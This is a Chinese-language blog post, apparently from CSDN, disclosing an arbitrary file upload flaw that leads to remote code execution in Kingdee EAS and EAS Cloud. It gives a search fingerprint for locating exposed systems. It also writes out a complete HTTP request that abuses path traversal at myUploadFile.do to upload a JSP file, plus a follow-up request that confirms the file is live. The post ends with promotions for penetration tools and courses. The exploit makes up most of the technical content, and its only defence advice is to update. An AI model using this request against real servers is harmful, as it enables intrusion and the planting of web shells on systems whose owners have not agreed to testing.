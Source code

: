 # 原创
：  金蝶EAS代码执行漏洞

# 金蝶EAS代码执行漏洞

### 【漏洞概述】

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。

### 【漏洞介绍】

金蝶 EAS 及 EAS Cloud 存在远程代码执行漏洞

### 【影响版本】

金蝶 EAS 8.0，8.1，8.2，8.5<br/> 金蝶 EAS Cloud 8.6私有云，8.6公有云，8.6.1，8.8

### 【指纹】

app=”Kingdee-EAS”

### 【产品界面】

【利用过程】<br/> Kingdee EAS EAS Cloud myUploadFile.do接口存在任意文件上传问题

```
POST /easportal/xxx/%2e%2e/xxx/myUploadFile.do HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySq4lDnabv8CwHfvx
Cookie: sl-session=sqPhC9MLJmWsiN7c9/P6tA==
Accept-Encoding: gzip, deflate
Content-Length: 210
SL-CE-SUID: 47

------WebKitFormBoundarySq4lDnabv8CwHfvx
Content-Disposition: form-data; name="myFile"; filename="/demo.jsp"
Content-Type: text/html

&lt;%out.println("test123");%&gt;
------WebKitFormBoundarySq4lDnabv8CwHfvx--

```

### 【验证】

```
GET /easportal/xxx/../demo.jsp HTTP/1.1
Host: 127.0.0.1

```

### 【修复建议】

及时更新软件版本

**没看够~？欢迎关注！**

** **<img alt="" height="567" src="https://img-blog.csdnimg.cn/3f5a63e56f7b420e82616d0099771f32.jpeg" width="1015"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/f333a24647774be5b99b00fb7019d620.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/3e579b7d7a164889a57771c035775069.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/a601ca2e0eb040bd911477a4f54fef8e.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/04beeeb6757b422a83ca0900a349a544.png" width="665"/>
